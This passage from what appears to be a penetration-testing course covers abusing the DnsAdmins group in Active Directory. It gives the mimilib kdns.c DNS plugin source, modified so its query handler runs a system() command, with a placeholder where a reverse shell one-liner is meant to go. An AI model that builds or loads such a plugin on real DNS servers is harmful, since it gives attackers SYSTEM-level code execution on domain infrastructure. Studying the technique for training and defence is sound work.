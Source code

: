 ```cmd-session
C:\htb> sc query dns
```

***

### <mark style="color:green;">Using Mimilib.dll</mark>

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

{% code fullWidth="true" %}
```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```
{% endcode %}

***
